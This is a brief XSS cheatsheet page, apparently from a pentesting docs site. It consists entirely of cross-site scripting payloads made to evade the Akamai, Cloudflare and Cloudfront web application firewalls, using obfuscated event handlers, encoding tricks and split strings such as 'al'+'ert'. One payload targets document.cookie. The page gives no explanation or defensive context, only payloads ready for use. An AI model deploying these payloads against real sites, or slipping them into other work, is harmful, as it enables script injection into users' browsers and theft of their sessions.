 ```yaml
---
title: "XSS - Cross-site Scripting"
draft: false
images: []
description: "XSS Cheatsheet"
lead: "XSS Cheatsheet"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


## WAF Payloads Bypass

### Akamai 

```
<!--><svg+onload=%27top[%2fal%2f%2esource%2b%2fert%2f%2esource](document.cookie)%27>

%3Cmarquee%20loop=1%20width=%271%26apos;%27onfinish=self[`al`+`ert`](1)%3E%23leet%3C/marquee%3E

%3Cx%20y=1%20z=%271%26apos;%27onclick=self[`al`%2B`ert`](1)%3E%23CLICK%20MEE
```
### Cloudflare

```
<svg onload=alert%26%230000000040"1")>

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

"%2Bself[%2F*foo*%2F'alert'%2F*bar*%2F](self[%2F*foo*%2F'document'%2F*bar*%2F]['domain'])%2F%2F

"-top['al\x65rt']('sailay')-"

asd"`> onpointerenter=x=prompt,x`XSS`

<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```
### Cloudfront

```
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>

">'><details/open/ontoggle=confirm('XSS')>

6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/

&quot;&gt;&lt;img src=x onerror=confirm(1);&gt;
```
